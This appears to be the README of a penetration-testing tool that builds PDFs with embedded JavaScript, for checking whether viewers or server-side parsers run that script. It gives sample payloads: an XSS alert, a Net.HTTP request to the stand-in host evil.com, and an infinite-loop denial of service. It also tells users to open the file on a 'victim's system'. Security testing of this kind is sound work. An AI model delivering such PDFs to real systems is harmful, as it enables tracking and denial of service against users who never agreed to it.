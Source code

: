 # Generate PDF File Containing JavaScript Code

PDF may contain JavaScript code. 
This script allow us to generate a PDF file which helps us to check if that code is executed when the file is opened.
Possible targets are client applications trying to open the file or sererside backends which are parsing the PDF file.

## HowTo

1. Edit the file `poc.js` with the JS code you want to have included in your PDF file
2. Install the required python modules using `pip install pdfrw`
3. Create the PDF: `python poc.py poc.js`
4. Open the file `result.pdf` on your victim's system

## Possible exploit codes

The full set of available functions is documented here: https://opensource.adobe.com/dc-acrobat-sdk-docs/library/jsapiref/JS_API_AcroJS.html

### XSS (for GUI viewers)

```js
app.alert("XSS");
```

### Open URL

```js
var cURL="http://evil.com/";
var params =
{
     cVerb: "GET",
     cURL: cURL
};
Net.HTTP.request(params);
```

### Timeout

```js
while (true) {}
```

## References

The code is based on https://github.com/osnr/horrifying-pdf-experiments/
